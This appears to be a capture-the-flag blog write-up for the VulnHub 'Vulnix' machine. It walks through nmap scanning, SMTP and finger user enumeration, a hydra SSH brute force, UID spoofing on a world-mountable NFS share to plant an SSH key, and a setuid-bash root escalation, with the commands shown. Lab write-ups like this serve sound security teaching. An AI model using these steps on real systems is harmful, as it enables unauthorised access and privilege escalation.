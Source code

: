 ```yaml
---
layout: post
title:  "Vulnix"
date:   2017-07-28 12:34
categories: ctf
---
```


Vulnix is a boot-to-root vulnerable machine found on [VulnHub](https://www.vulnhub.com/entry/hacklab-vulnix,48/). I pulled this down and ran it in Virtualbox.

Getting started we will us nmap to enumerate open ports.

    nmap -p -sV 192.168.1.130

{% highlight text %}
Starting Nmap 7.40 ( https://nmap.org ) at 2017-07-16 14:02 EDT
Nmap scan report for vulnix.hsd1.co.comcast.net (192.168.1.111)
Host is up (0.00034s latency).
Not shown: 65518 closed ports
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 5.9p1 Debian 5ubuntu1 (Ubuntu Linux; protocol 2.0)
25/tcp open smtp Postfix smtpd
79/tcp open finger Linux fingerd
110/tcp open pop3 Dovecot pop3d
111/tcp open rpcbind 2-4 (RPC #100000)
143/tcp open imap Dovecot imapd
512/tcp open exec?
513/tcp open login
514/tcp open tcpwrapped
993/tcp open ssl/imap Dovecot imapd
995/tcp open ssl/pop3 Dovecot pop3d
2049/tcp open nfs_acl 2-3 (RPC #100227)
39127/tcp open mountd 1-3 (RPC #100005)
46013/tcp open mountd 1-3 (RPC #100005)
51380/tcp open status 1 (RPC #100024)
51502/tcp open mountd 1-3 (RPC #100005)
51986/tcp open nlockmgr 1-4 (RPC #100021)
MAC Address: 08:00:27:53:D1:AF (Oracle VirtualBox virtual NIC)
Service Info: Host: vulnix; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 78.42 seconds
{% endhighlight %}

![Initial nmap](/assets/images/vulnix/initial_nmap.png)

We can use the postfix server to check for existing users on the machine using the VRFY command.

{% highlight text %}
nc 192.168.1.130 25
220 vulnix ESMTP Postfix (Ubuntu)
EHLO example.com
250-vulnix
250-PIPELINING
250-SIZE 10240000
250-VRFY
250-ETRN
250-STARTTLS
250-ENHANCEDSTATUSCODES
250-8BITMIME
250 DSN
VRFY root
252 2.0.0 root
VRFY aott
550 5.1.1 <aott>: Recipient address rejected: User unknown in local recipient table
VRFY admin
550 5.1.1 <admin>: Recipient address rejected: User unknown in local recipient table
VRFY vulnix
252 2.0.0 vulnix
VRFY dovecot
252 2.0.0 dovecot
{% endhighlight %}

Using the `smtp-user-enum` tool we can automate this and use a wordlist.

{% highlight text %}
# smtp-user-enum -M VRFY -U /usr/share/wordlists/metasploit/unix_users.txt -t 192.168.1.130
Starting smtp-user-enum v1.2 ( http://pentestmonkey.net/tools/smtp-user-enum )

----------------------------------------------------------
| Scan Information |
----------------------------------------------------------

Mode ..................... VRFY
Worker Processes ......... 5
Usernames file ........... /usr/share/wordlists/metasploit/unix_users.txt
Target count ............. 1
Username count ........... 112
Target TCP port .......... 25
Query timeout ............ 5 secs
Target domain ............

######## Scan started at Sat Jul 29 17:33:28 2017 #########
192.168.1.130: ROOT exists
192.168.1.130: backup exists
192.168.1.130: bin exists
192.168.1.130: daemon exists
192.168.1.130: games exists
192.168.1.130: gnats exists
192.168.1.130: irc exists
192.168.1.130: libuuid exists
192.168.1.130: lp exists
192.168.1.130: list exists
192.168.1.130: man exists
192.168.1.130: mail exists
192.168.1.130: messagebus exists
192.168.1.130: news exists
192.168.1.130: nobody exists
192.168.1.130: postmaster exists
192.168.1.130: proxy exists
192.168.1.130: root exists
192.168.1.130: sshd exists
192.168.1.130: sync exists
192.168.1.130: sys exists
192.168.1.130: syslog exists
192.168.1.130: user exists
192.168.1.130: uucp exists
192.168.1.130: www-data exists
######## Scan completed at Sat Jul 29 17:33:28 2017 #########
25 results.

112 queries in 1 seconds (112.0 queries / sec)
{% endhighlight %}

We can easily write all the existing users to a file to be used later.

    smtp-user-enum -M VRFY -U /usr/share/wordlists/metasploit/unix_users.txt -t 192.168.1.130 | grep exists | cut -d' ' -f2 > users_exist.txt

Using this list, we can use the fact that the finger port is open to see which of these users have a login shell.

    for i in $(cat users_exist.txt); do finger $i@192.168.1.130; done

![finger](/assets/images/vulnix/fingering.png)

Knowing the users that have a login shell, we stuff those into a file called users.txt and use hydra to bruteforce a login.

    hydra -L users.txt -P /usr/share/SecLists/Passwords/10k_most_common.txt 192.168.1.130 ssh

![hydra](/assets/images/vulnix/hydra.png)

Now that we have a valid username and password (user:letmein) we can use ssh to get in and start enumeration on the box.

![ssh with low priv](/assets/images/vulnix/ssh-in.png)

On the box I start enumeration using steps here https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/

![/etc/exports](/assets/images/vulnix/exports.png)

Hmmm

    /home/vulnix	*(rw,root_squash)

Looking this up I found that the * here is a wildcard meaning that /home/vulnix can be mounted from anywhere. So, let's mount it to my machine.

![mount permission denied](/assets/images/vulnix/mount_with_permission_denied.png)

Well, we can't get in there even with root. That's what that root_squash setting does. We are only going to be able to get in there using the vulnix user, so we create a local vulnix user with the same uid(2008) and gid(2008) as the remote box.

![/etc/passwd](/assets/images/vulnix/passwd_file.png)

After creating this user and switching, we are able to get into the /mnt/vulnix directory. Here we will create an ssh key that will allow us to ssh directly to the machine using the vulnix user.

![Mounted as vulnix](/assets/images/vulnix/mounted_as_vulnix.png)

    ssh-keygen -t rsa

![create ssh key](/assets/images/vulnix/create_ssh_key.png)

![Move pub key](/assets/images/vulnix/mv_ssh_pub_key.png)

    ssh vulnix@192.168.1.130 -i /home/vulnix/.ssh/id_rsa

![SSH as vulnix](/assets/images/vulnix/ssh_with_vulnix.png)

Let's see what the vulnix user can do with `sudo -l`

![sudo -l](/assets/images/vulnix/sudo_l.png)

So we are able to edit the /etc/exports file and change that root_squash to no_root_squash.

    editsudo /etc/export

After changing this file, we would need to restart networking for the changes to take effect. Sadly we don't have a user that can do that so we just manually reboot this. Obviously in a real situation we don't have control to do this so we might have to get creative.

Prior to rebooting, let's copy /bin/bash to the /home/vulnix directory for some setuid fun.

![copy bash](/assets/images/vulnix/copy_bash.png)

After the reboot, we remount /home/vulnix and are now able access that directory with the root user.

![set uid](/assets/images/vulnix/setuid_bash.png)

```
cd /mnt/vulnix
chown root bash
chmod 4755 bash
```

Now we have everything we need to escalate to root.

On the victim machine as the vulnix user, we run `bash -p` to keep permissions of the user.

![Escalate](/assets/images/vulnix/escalation_to_root.png)

BOOM! Done.
